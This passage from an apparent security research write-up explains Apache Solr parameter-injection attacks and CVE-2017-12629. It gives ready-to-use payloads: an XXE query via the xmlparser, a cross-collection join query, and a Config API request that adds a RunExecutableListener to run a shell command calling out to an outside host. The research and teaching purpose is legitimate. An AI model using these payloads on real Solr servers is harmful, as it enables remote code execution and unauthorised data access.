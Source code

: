 In this case it is still possible to specify the parser type and [Solr local parameters](https://lucene.apache.org/solr/guide/6_6/local-parameters-in-queries.html) used by this parser, e.g.:

`GET /search?q={!type=_parser_type_+param=value}xxx`

This attack [was described back in 2013](https://javahacker.com/abusing-the-solr-local-parameters-feature-localparams-injection/), but until 2017 nobody knew how to exploit it. 
In 2017, we reported [CVE-2017-12629](https://www.exploit-db.com/exploits/43009) and discovered a way how to trigger XXE by using 'xmlparser' parser and escalate it to the Solr parameters injection vulnerability:

`GET /search?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://127.0.0.1:/solr/gettingstarted/upload?stream.body={"xx":"yy"}&commit=true"'><a></a>'}`

In other Solr versions where [CVE-2017-12629](https://www.exploit-db.com/exploits/43009) does not work or patched, the local parameters injection is almost harmless. Well, it could probably be used to cause DoS, but even by using lucene syntax we can make heavy queries, so DoS does not really count here. Another potential way to exploit the local parameters injection is to use Join Query Parser to access the data from another collection:

`GET /search?q={!join from=id fromIndex=anotherCollection to=other_id}Apple`

But it not always possible as another collection should contain the same IDs.
Therefore, until somebody will find a better way to exploit local parameters injection, I would not consider it as a security vulnerability given that [CVE-2017-12629](https://www.exploit-db.com/exploits/43009) is patched.

## Ways to RCE
Since attackers normally are not interested in data stored within the cluster (it may be non-sensitive), but rather in achieving RCE or local file read. Fortunately, there is a couple of vulnerabilities allowing it:
### 1. \[CVE-2017-12629] Remote Code Execution via RunExecutableListener
**Target Solr version:** 5.5x-5.5.5, 6x-v6.6.2, 7x - v7.1<br>
**Requirements:** none

The attack leverages [Solr ConfigApi](https://lucene.apache.org/solr/guide/7_4/config-api.html) to add a new [RunExecutableListener](http://lucene.apache.org/solr/6_6_2/solr-core/org/apache/solr/core/RunExecutableListener.html) that executes a shell command. After you added this listener you need to perform an update operation using [/update handler](https://lucene.apache.org/solr/guide/6_6/uploading-data-with-index-handlers.html#UploadingDatawithIndexHandlers-AddingaSingleJSONDocument) to trigger the command execution. There is the [public exploit explained](https://www.exploit-db.com/exploits/43009), thanks [Olga Barinova](https://twitter.com/_lely___) for sharing ideas how to exploit it.

Exploit via direct connection to a Solr server:
```http request
POST /solr/db/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: 213

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"nslookup",
    "dir":"/usr/bin/",
    "args":["solrx.x.artsploit.com"]
  }
}
```

